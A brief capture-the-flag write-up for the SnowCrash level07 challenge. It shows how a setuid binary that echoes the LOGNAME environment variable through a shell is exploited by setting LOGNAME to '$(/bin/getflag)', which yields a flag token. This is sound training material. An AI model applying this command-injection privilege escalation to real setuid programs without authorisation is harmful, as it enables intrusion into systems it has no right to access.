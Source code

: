 ```
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile

level07@SnowCrash:~$ ./level07
level07

level07@SnowCrash:~$ strings level07
...
LOGNAME
/bin/echo %s
...
```
By experimenting a bit we determine that `echo` prints LOGNAME so by changing this env variable we can get the flag:
```
level07@SnowCrash:~$ export LOGNAME='$(/bin/getflag)'

level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
